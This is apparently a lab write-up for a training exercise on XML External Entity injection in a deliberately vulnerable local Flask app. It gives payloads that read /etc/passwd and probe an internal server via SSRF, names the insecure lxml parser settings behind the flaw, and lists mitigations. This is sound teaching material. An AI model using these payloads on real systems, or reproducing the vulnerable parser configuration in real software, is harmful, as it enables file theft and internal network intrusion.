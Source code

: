 # XML External Entity (XXE) Injection Vulnerability Analysis - Cybersecurity 1x1

## Overview

This comprehensive analysis demonstrates XML External Entity injection vulnerabilities in a Flask web application. The assessment provides professional exploitation methodologies and comprehensive reporting capabilities for educational cybersecurity purposes.

## Features

- **Multiple XXE Attack Vectors**: Professional payload collection covering various exploitation methods
- **Systematic Vulnerability Testing**: Manual testing approaches for thorough assessment
- **Comprehensive Documentation**: Step-by-step exploitation methodology
- **Professional Analysis**: Complete vulnerability assessment and risk evaluation
- **Multiple Impact Methods**: File read, SSRF, denial of service, blind data exfiltration

## Prerequisites

### System Requirements

- Python 3.8 or higher
- Flask application running
- Web browser (Chrome, Firefox, Safari, or Edge)
- Terminal/Command line access

### Application Dependencies

```bash
# Verify Python installation
python3 --version

# Verify Flask installation
flask --version
```

## Usage

### 1. Environment Setup

```bash
# Start the vulnerable application
(cd ex01/cyber1x1.1.00/; ./start.sh) 

# Expected output verification
curl http://localhost:5000/
```

### 2. Testing the Payloads

#### Method 1: Local File Read Exploitation

1. Navigate to `/xml` endpoint

2. Enter the following payload in the textarea:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

3. Click "Parse"

4. **Expected result**: Contents of `/etc/passwd` displayed

#### Method 2: Server-Side Request Forgery (SSRF)

1. Enter payload:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal-server.local/"> ]>
<foo>&xxe;</foo>
```

2. **Expected result**: Internal server responses (if network access is permitted)

### 3. Stopping the Application

```bash
# To stop the Docker container
docker kill cyber1x1100-xxe-app-1
```

## Troubleshooting

- **Port 5000 already in use**: Stop other services using port 5000
- **Docker not found**: Install Docker and ensure it's running
- **Permission denied on start.sh**: Run `chmod +x start.sh`
- **Cannot access localhost:5000**: Check firewall settings and Docker configuration

## Vulnerability Classification

### OWASP Classification

- **OWASP Top 10**: A03:2021 - Injection
- **CWE Classification**: CWE-611 - Improper Restriction of XML External Entity Reference
- **Vulnerability Type**: XML External Entity (XXE) Injection
- **Severity**: High (CVSS 3.1 Base Score: 8.2)

## Technical Description

### What is XML External Entity Injection?

XXE occurs when an XML parser processes external entity references within XML documents. In this application, this allows:

- Arbitrary file read operations
- Server-side request forgery (SSRF)
- Denial of service attacks
- Potential remote code execution in certain configurations
- Blind data exfiltration

### Application Specifics

This vulnerability exists because:

- The XML parser is configured with `resolve_entities=True`
- No input validation is performed on XML input
- Network access is enabled (`no_network=False`)
- No size limits are imposed on XML processing

## Impact Assessment

### Immediate Risks

- Sensitive file disclosure (passwd, shadow, config files)
- Internal network reconnaissance via SSRF
- Denial of service attacks (Billion Laughs attack)
- Potential remote code execution in certain environments

### Business Impact

- Data breaches of sensitive information
- Internal infrastructure exposure
- System availability compromise
- Regulatory compliance violations
- Reputation damage

## Mitigation Strategies

1. **Disable external entity processing**:

```python
parser = etree.XMLParser(resolve_entities=False, no_network=True)
```

2. **Implement input validation**:
   - Whitelist allowed XML structures
   - Reject DOCTYPE declarations
   - Limit input size

3. **Use safer data formats** (JSON instead of XML when possible)

4. **Apply the principle of least privilege** to application processes

## Conclusion

This professional XXE vulnerability analysis demonstrates complete exploitation capabilities when the vulnerable application environment is operational. The assessment highlights critical risks associated with improper XML processing.

## References

- [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
- [PortSwigger XXE Documentation](https://portswigger.net/web-security/xxe)
- [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)
- [lxml XML Security](https://lxml.de/FAQ.html#how-do-i-use-lxml-safely-as-a-web-service-endpoint)
